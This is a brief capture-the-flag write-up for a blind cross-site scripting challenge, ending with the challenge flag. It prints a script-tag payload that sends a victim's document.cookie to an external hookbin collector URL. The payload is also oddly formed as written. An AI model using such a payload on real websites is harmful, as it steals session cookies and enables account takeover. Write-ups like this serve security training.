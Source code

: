 This challenge requires blind xss injection.
our intial payload was 
><script src='https://hookb.in/7ZGMgJJPKNua99D3yQPP' +document.cookie</script>
where we ar are recieving a cookie using the "document.cookie" function and capturing teh response at
the hookbin link given.

But after discovering a "Secret_admin_cookie_panel" we go the end point and refresh the page where 
we recieve the flag zh3r0{{Ea5y_bx55_ri8}}
